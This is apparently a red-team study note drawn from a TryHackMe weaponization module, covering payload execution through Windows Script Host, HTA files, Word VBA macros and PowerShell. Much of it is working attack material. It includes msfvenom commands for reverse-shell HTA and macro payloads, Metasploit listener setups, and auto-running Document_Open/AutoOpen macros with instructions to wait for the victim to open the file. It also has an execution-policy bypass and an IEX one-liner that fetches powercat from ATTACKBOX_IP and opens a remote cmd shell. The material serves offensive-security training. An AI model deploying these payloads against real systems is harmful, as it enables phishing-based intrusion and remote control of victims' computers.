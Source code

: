 --- ---
<h3>Why using Macros Payload?</h3>
As security measures become more robust in organizations, executing payloads within controlled environments becomes increasingly challenging for red teamers. Since **.exe** files are often blocked or monitored, alternative techniques such as built-in windows scripting technologies are used. In this context, this task delves into some of the popular and effective scripting techniques, including WSH, HTA, VBA, and PSH, used by red teamers to execute payloads.

- Bypassing .exe Monitoring using WSH, HTA, VBA, PSH

---
<h3>Windows Scripting Host (WSH)</h3>
It is a Windows native engine, cscript.exe (for command-line scripts) and wscript.exe (for UI scripts), which are responsible for executing various Microsoft Visual Basic Scripts (VBScript), including vbs and vbe. For more information about VBScript, please visit [here](https://en.wikipedia.org/wiki/VBScript). It is important to note that the VBScript engine on a Windows operating system runs and executes applications with the same level of access and permission as a regular user; therefore, it is useful for the red teamers.

**Create the code in the vbs or txt file**

- Specify the location of the executable we want to launch
```vbs
Set shell = WScript.CreateObject("Wscript.Shell")
shell.Run("C:\Windows\System32\calc.exe " & WScript.ScriptFullName),0,True
```

- Exeptions (Some apps are in the default path, so no need to provide the initial executable location.)
```
Set shell = WScript.CreateObject("Wscript.Shell")
shell.Run "cmd.exe"
```


**Launch the file**

```shell-session
# Launch the vbs script from vbs file
c:\Windows\System32>wscript c:\Users\thm\Desktop\payload.vbs
c:\Windows\System32>cscript.exe c:\Users\thm\Desktop\payload.vbs

# Launch the vbs script from a .txt file
c:\Windows\System32>wscript /e:VBScript c:\Users\thm\Desktop\payload.txt
```

More information about VBSscript here ---> https://en.wikipedia.org/wiki/VBScript

---
<h3>An HTML Application (HTA)</h3>
HTA stands for “HTML Application.” It allows you to create a downloadable file that takes all the information regarding how it is displayed and rendered. HTML Applications, also known as HTAs, which are dynamic HTML pages containing JScript and VBScript. The LOLBINS (Living-of-the-land Binaries) tool mshta is used to execute HTA files. It can be executed by itself or automatically from Internet Explorer.


**Reverse Shell**

MSFvenom -> Using hta (HTML)
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=IP LPORT=1234 -f hta-psh -o exploit.hta
```
- Let the victime open the following exploit.hta from Microsoft Edge (This will automaticly run the HTML/HTA element and give back a reverse shell)
- More infromation ---> <a href="https://tryhackme.com/room/weaponization">Tryhackme Module</a> (Seciton An HTML Application - HTA)

Metasploit -> Using hta (HTML)
```
use exploit/windows/misc/hta_server
set LHOST IP
set LPORT 1234
set SRVHOST SAME-IP
set payload windows/meterpreter/reverse_tcp
exploit
```
- Let the victime open the following exploit.hta from Microsoft Edge (This will automaticly run the HTML/HTA element and give back a reverse shell) --> Using python server for example
- More infromation ---> <a href="https://tryhackme.com/room/weaponization">Tryhackme Module</a> (Seciton An HTML Application - HTA)

---
<h3>Visual Basic for Application (VBA) - Macros</h3>
VBA stands for Visual Basic for Applications, a programming language by Microsoft implemented for Microsoft applications such as Microsoft Word, Excel, PowerPoint, etc. VBA programming allows automating tasks of nearly every keyboard and mouse interaction between a user and Microsoft Office applications.   

Macros are Microsoft Office applications that contain embedded code written in a programming language known as Visual Basic for Applications (VBA). It is used to create custom functions to speed up manual tasks by creating automated processes. One of VBA's features is accessing the Windows Application Programming Interface ([API](https://en.wikipedia.org/wiki/Windows_API)) and other low-level functionality. For more information about VBA, visit [here](https://en.wikipedia.org/wiki/Visual_Basic_for_Applications).

- Create/Run Macros (Microsoft Word)
	First, we need to open the Visual Basic Editor by selecting view → macros. The Macros window shows to create our own macro within the document.
	
	![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/5e12755e9b891865c6ef07e25047060b.png)  
	
	- Select a name, change the Macros in for "Document1" and click create
	
	Finally, run the macro by F5 or Run → Run Sub/UserForm.
	
	```VBA
	Sub Document_Open()
	  HACKING
	End Sub
	
	Sub AutoOpen()
	  HACKING
	End Sub
	
	Sub HACKING()
	   MsgBox ("You got Hack!")
	End Sub
	```
	
	It is important to note that to make the macro work, we need to save it in Macro-Enabled format such as .doc and docm. Now let's save the file as Word 97-2003 Template where the Macro is enabled by going to File → save Document1 and save as type → Word 97-2003 Document and finally, save.
	
	![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/a5e35b7436173da709dae5695c34d4f9.png)  
	
	Let's close the Word document that we saved. If we reopen the document file, Microsoft Word will show a security message indicating that Macros have been disabled and give us the option to enable it. Once enable the payload will be executed
	
	- Second Example with calc.exe
	```javascript
	Sub PoC()
		Dim payload As String
		payload = "calc.exe"
		CreateObject("Wscript.Shell").Run payload,0
	End Sub
	```
	- To explain the code in detail, with Dim payload As String, we declare payload variable as a string using Dim keyword. With payload = "calc.exe" we are specifying the payload name and finally with CreateObject("Wscript.Shell").Run payload we create a Windows Scripting Host (WSH) object and run the payload. Note that if you want to rename the function name, then you must include the function name in the  AutoOpen() and Document_open() functions too.
	
	**It is important to mention that we can combine VBAs with previously covered methods, such as HTAs and WSH. VBAs/macros by themselves do not inherently bypass any detections.**



**HTA Reverse Connection (Using Miscrosoft Word Macros)**

MSFvenom
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=1234 -f vba
```
- Insert the output in the Macros
- Change Workbook_Open() to Document_Open() ---> Workbook_Open() is for excel sheet

Setup Meterpreter reverse shell
```
use exploit/multi/handler 
set payload windows/meterpreter/reverse_tcp
set LHOST IP
set LPORT 1234
exploit 
```
- Now wait for the target to open the document

- More infromation ---> <a href="https://tryhackme.com/room/weaponization">Tryhackme Module</a> (Visual Basic for Application - VBA)

---
<h3>PowerShell (PSH)</h3>
PowerShell is an object-oriented programming language executed from the Dynamic Language Runtime (DLR) in .NET with some exceptions for legacy uses. Check out the TryHackMe room, [Hacking with PowerShell for more information about PowerShell](https://tryhackme.com/room/powershell).

Bypass policy (Help run powershell script)
```
Get-ExecutionPolicy                            ---> Check Policy

powershell -ex bypass
powershell -ex bypass -File something.ps1
```

Reverse shell using powercar
```
git clone https://github.com/besimorhino/powercat.git
```
- Open a python server (No need to download it on the target machine since "Launch Powercat" command will do it automaticly)

Launch Netcat
```
nc -lvp 1337
```

Launch Powercat (target)
```
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://ATTACKBOX_IP:8080/powercat.ps1');powercat -c ATTACKBOX_IP -p 1337 -e cmd"
```

- More infromation ---> <a href="https://tryhackme.com/room/weaponization">Tryhackme Module</a> (PowerShell - PSH)